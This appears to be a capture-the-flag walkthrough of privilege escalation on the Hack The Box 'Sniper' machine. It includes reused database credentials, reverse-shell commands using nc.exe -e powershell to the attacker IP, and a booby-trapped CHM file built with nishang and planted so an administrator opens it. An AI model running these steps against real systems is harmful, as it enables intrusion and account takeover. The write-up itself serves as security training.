

# 15 - PrivEsc

```powershell
PS C:\inetpub\wwwroot\user> type db.php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

With this password we should try password reuse. People love to use the same password.


# Chris

```powershell
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ cme smb 10.10.10.151 -u chris -p '36mEAhz/B8xQ~2VM'
SMB         10.10.10.151    445    SNIPER           [*] Windows 10.0 Build 17763 x64 (name:SNIPER) (domain:Sniper) (signing:False) (SMBv1:False)
SMB         10.10.10.151    445    SNIPER           [+] Sniper\chris:36mEAhz/B8xQ~2VM 
```

Credentials:

* chris:36mEAhz/B8xQ~2VM


Unlike other windows boxes, Sniper does not reveal WinRM (5985) to public. But we can access it locally.
```powershell
PS C:\inetpub\wwwroot\blog>$pass = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\inetpub\wwwroot\blog>$cred = New-Object System.Management.Automation.PSCredential('sniper\chris', $pass)
PS C:\inetpub\wwwroot\blog>Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {whoami}
PS C:\inetpub\wwwroot\blog>Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {\\10.10.14.10\htb\nc.exe -e powershell 10.10.14.10 9001}
```


# Shell
```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ nc -lvp 9001
listening on [any] 9001 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49687
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Chris\Documents>
```

# c:\Docs
```powershell
PS C:\Docs> dir

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/11/2019   9:31 AM            285 note.txt                                                              
-a----        4/11/2019   9:17 AM         552607 php for dummies-trial.pdf                                             
```

# note.txt
```sql
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```


CEO is waiting for the documentation from Chris, they could be the administrator.


# Files in Chris's home directory

```powershell
PS C:\Users\Chris>gci -Recurse -File | select Fullname

FullName                                 
--------                                 
C:\Users\Chris\Desktop\user.txt          
C:\Users\Chris\Downloads\instructions.chm
C:\Users\Chris\Favorites\Bing.url        
C:\Users\Chris\Links\Desktop.lnk         
C:\Users\Chris\Links\Downloads.lnk       


```

instructions.chm is a compiled html file.

```bash
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper]
└──╼ $ file instruction.chm 
instruction.chm: MS Windows HtmlHelp Data
```





This could be the documentation the administrator is talking about. That means the format will be .chm

We can inject code in the chm file and place it in c:\Docs for administrator to open it because CEO wants it there. Once the administrator opens the file our malicious code will get executed. Luckily, `nishang` has a module Out-CHM.ps1 but it wants to run on windows.

# Commando VM
```powershell
PS C:\Tools\nishang> . .\Client\Out-CHM.ps1
PS C:\Tools\nishang> Out-CHM -Payload "\windows\temp\nc.exe -e powershell 10.10.14.10 9002"
PS C:\Tools\nishang> cp doc.chm \\192.168.56.103\htb\doc.chm
```

Please read Out-CHM.ps1, it also needs htmlhelp.exe.

# Target
```powershell
PS C:\Docs> cp \\10.10.14.10\htb\nc.exe \windows\temp\nc.exe
PS C:\Docs> cp \\10.10.14.10\htb\doc.chm .
```

In just a few seconds we should get a shell.


# Administrator shell
```powershell
┌─[user@parrot]─[10.10.14.10]─[~/htb/sniper/share]
└──╼ $ rlwrap nc -lvp 9002
listening on [any] 9002 ...
10.10.10.151: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.151] 49703
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
sniper\administrator

```